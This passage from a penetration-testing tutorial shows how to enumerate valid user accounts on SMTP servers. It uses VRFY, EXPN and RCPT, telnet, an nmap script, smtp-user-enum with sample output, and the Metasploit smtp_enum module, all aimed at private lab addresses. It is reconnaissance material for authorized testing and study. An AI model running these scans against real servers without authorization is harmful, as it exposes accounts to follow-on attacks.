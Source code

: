 `VRFY`, `EXPN` and `RCPT` can be used to identify users.

Telnet is a bit more friendly some times. So always use that too

```text
telnet 10.11.1.229 25
```

#### Automatized

This process can of course be automatized

**Check for commands**

```text
nmap -script smtp-commands.nse 192.168.1.101
```

**smtp-user-enum**

The command will look like this. `-M` for mode. `-U` for userlist. `-t` for target

```text
smtp-user-enum -M VRFY -U /root/sectools/SecLists/Usernames/Names/names.txt -t 192.168.1.103
```

```text
Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... /root/sectools/SecLists/Usernames/Names/names.txt
Target count ............. 1
Username count ........... 8607
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Sun Jun 19 11:04:59 2016 #########
192.168.1.103: Bin exists
192.168.1.103: Irc exists
192.168.1.103: Mail exists
192.168.1.103: Man exists
192.168.1.103: Sys exists
######## Scan completed at Sun Jun 19 11:06:51 2016 #########
5 results.

8607 queries in 112 seconds (76.8 queries / sec)
```

**Metasploit**

I can also be done using metasploit

```text
msf > use auxiliary/scanner/smtp/smtp_enum 
msf auxiliary(smtp_enum) > show options

Module options (auxiliary/scanner/smtp/smtp_enum):

   Name       Current Setting                                                Required  Description
   ----       ---------------                                                --------  -----------
   RHOSTS                                                                    yes       The target address range or CIDR identifier
   RPORT      25                                                             yes       The target port
   THREADS    1                                                              yes       The number of concurrent threads
   UNIXONLY   true                                                           yes       Skip Microsoft bannered servers when testing unix users
   USER_FILE  /usr/share/metasploit-framework/data/wordlists/unix_users.txt  yes       The file that contains a list of probable users accounts.
```